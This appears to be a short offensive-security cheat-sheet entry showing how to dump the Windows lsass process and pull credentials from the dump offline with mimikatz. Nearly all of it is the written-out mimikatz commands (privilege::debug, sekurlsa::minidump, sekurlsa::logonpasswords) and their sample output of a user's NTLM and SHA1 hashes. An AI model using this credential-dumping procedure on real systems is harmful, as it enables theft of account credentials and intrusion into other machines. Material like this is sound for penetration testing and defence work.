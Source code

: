 ### mimikatz lsass.DMP local analyze

if we cant run mimikatz on target machine, we can get dump of lsass process and analyze local computer.

Create dump of process (need administrator rights)

![image](https://user-images.githubusercontent.com/13157446/130370304-7543ddde-fe67-4094-95d8-df3ecf252352.png)


Dump file is located

	C:\Users\win10\AppData\Local\Temp\lsass.DMP


Get passwords


	mimikatz # privilege::debug
	Privilege '20' OK

	mimikatz # sekurlsa::minidump lsass.DMP
	Switch to MINIDUMP : 'lsass.DMP'

	mimikatz # sekurlsa::logonpasswords full
	Opening : 'lsass.DMP' file for minidump...

	Authentication Id : 0 ; 2436075 (00000000:00252beb)
	Session           : Interactive from 1
	User Name         : win10
	Domain            : LOKI
	Logon Server      : LOKI
	Logon Time        : 8/21/2021 2:28:13 AM
	SID               : S-1-5-21-4116903850-2340306423-3138033007-1000
			msv :
			 [00010000] CredentialKeys
			 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
			 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
			 [00000003] Primary
			 * Username : win10
			 * Domain   : LOKI
			 * NTLM     : 31d6cfe0d16ae931b73c59d7e0c089c0
			 * SHA1     : da39a3ee5e6b4b0d3255bfef95601890afd80709
			tspkg :
			wdigest :
			 * Username : win10
			 * Domain   : LOKI
			 * Password : (null)
			kerberos :
			 * Username : win10
			 * Domain   : LOKI
			 * Password : (null)
			ssp :
			credman :



